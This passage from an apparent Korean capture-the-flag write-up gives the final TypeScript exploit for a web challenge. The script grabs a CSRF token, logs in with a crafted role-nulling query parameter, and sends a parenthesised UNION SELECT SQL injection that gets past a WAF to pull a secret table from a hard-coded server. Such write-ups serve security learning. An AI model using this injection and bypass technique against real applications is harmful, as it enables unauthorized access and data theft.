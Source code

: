이제 여기서 위 코드의 `WAF`를 우회해야 하는데 간단히 우회할 수 있다. `UNION(SELECT(sdata)FROM(SITE_SECRET))`를 사용하면 된다!

최종적인 익스 코드는 아래와 같다.

```ts
import axios from "axios";
import { stringify, parse } from "qs";

const instance = axios.create({
  baseURL: "http://13.125.48.233:8780",
});

const csrfTokenRes = await instance.get("/user/login");
const csrfToken = csrfTokenRes.data.match(/value="(.+)"/)[1];
let TOKEN = csrfTokenRes.headers["set-cookie"]?.[0].split(";")[0];
const loginRes = await instance.post(
  "/user/login?ShieldParam=%7B%22userasdf_role%22%3Anull%7D",
  stringify({
    username: "asdfasdfasdf12",
    password: "asdfasdfasdf12",
    _csrf: csrfToken,
  }),
  {
    maxRedirects: 0,
    headers: {
      cookie: TOKEN,
      "Content-Type": "application/x-www-form-urlencoded",
    },
    validateStatus: (status) => status === 302,
  }
);

TOKEN = loginRes.headers["set-cookie"]?.[0].split(";")[0];

await instance.get("/api/v6/shieldosint/query", {
  params: { q: "Y" },
  headers: { cookie: TOKEN },
});

const sql = `UNION(SELECT(sdata)FROM(SITE_SECRET))`;
console.info(sql.length);
await instance
  .get("/api/v6/shieldosint/search", {
    params: { s: "filterQuery", q: `a a ${sql}`, mp: "string" },
    headers: { cookie: TOKEN },
  })
  .then((v) => console.log(v.data.replace("Query Result: ", "").length));
await instance
  .get("/api/v6/shieldosint/search", {
    params: { s: "selectQuery", q: `a a ${sql}`, mp: "string" },
    headers: { cookie: TOKEN },
  })
  .then((v) => console.log(v.data.replace("Query Result: ", "")));
```
